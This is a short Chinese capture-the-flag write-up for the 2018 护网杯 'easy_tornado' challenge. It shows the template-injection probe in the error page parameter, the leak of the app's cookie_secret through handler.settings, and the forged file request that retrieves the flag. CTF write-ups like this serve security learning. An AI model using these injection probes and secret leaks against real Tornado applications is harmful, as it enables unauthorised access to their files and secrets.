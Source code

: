 # \[护网杯 2018]easy\_tornado

## \[护网杯 2018]easy\_tornado

## 考点

* tornado
* SSTI

## wp

上来给了三个链接

```
file?filename=/flag.txt&filehash=c5eeb6eefb2ad02d2ff06e5a66f63124
/flag.txt
flag in /fllllllllllllag

file?filename=/welcome.txt&filehash=f838084fcbaff9f5428b56518e27758d
/welcome.txt
render

file?filename=/hints.txt&filehash=b57e7ac739c0992826da2baedae10273
/hints.txt
md5(cookie_secret+md5(filename))
```

试着修改请求的链接，去掉filehash参数提示Error，此时的链接为

```
error?msg=Error
```

修改请求为`error?msg={{7}}` 看到回显7，判断存在SSTI。而在tornado中，它的`handler.settings` 模板就是当前应用的配置，直接访问就可以得到

```
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '6b17acff-5cf2-4382-bb17-2768465ecaa5'} 
```

得到了盐，再算/fllllllllllllag的hash即可，`file?filename=/fllllllllllllag&filehash=e49d1d331a78d133093c3f8cbb3d5bdb`

## 小结

1. tornado是Python web的一个框架
2. 对链接要敏感，增删改
